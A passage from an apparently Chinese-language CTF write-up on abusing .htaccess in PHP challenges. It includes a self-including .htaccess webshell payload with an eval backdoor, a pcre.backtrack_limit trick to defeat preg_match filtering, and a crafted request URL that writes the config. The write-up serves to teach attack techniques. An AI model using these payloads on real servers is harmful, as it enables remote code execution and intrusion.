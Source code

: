 如上图所示，成功执行命令并得到flag。

这个题也可以用通过包含 .htaccess 自身的方法Getshell：

```php
php_value auto_prepend_fi\
le ".htaccess"
#<?php @eval($_GET['cmd']); ?>\
```

### 正则回朔绕过正则匹配

[《PHP利用PCRE回溯次数限制绕过某些安全限制》](https://www.leavesongs.com/PENETRATION/use-pcre-backtrack-limit-to-bypass-restrict.html) 这篇文章中提到了一个正则回朔绕过 preg_match 检测的方法。即 PHP 的配置选项 pcre.backtrack_limit 给 pcre 设定了一个回溯次数上限，默认为1000000，如果回溯次数超过这个数字，preg_match 会返回false，我们可以通过这一点来绕过 preg_match 等函数正则匹配的检测。

由于 .htaccess 可以设定 PHP 的配置选项，那我们便可以将 pcre.backtrack_limit 设为 0 ，从而利用这个漏洞：

```php
php_value pcre.backtrack_limit 0
php_value pcre.jit 0
# \
```

我们还是通过刚才那个 CTF 例题来看一下具体的利用过程。

进入题目，给出源码：

```php
<?php
    ......
    $filename = $_GET['filename'];
    if(preg_match("/[^a-z\.]/", $filename) == 1) {
        echo "Hacker";
        die();
    }
    ......
    file_put_contents($filename, $content . "\nJust one chance");
?>
```

可以看到代码中的 preg_match 使用正则匹配限制filename只能是 a-z 和点号 . ，那我们便可以通过写入 .htaccess 设置回溯次数（pcre.backtrack_limit）为 0，从而绕过这里的正则回溯，直接将我们的Webshell写入fl3g.php。

首先将 pcre.backtrack_limit 的配置写入 .htaccess：

```php
/index.php?filename=.htaccess&content=php_value%20pcre.backtrack_limit%200%0Aphp_value%20pcre.jit%200%0A%23%20%5C
```
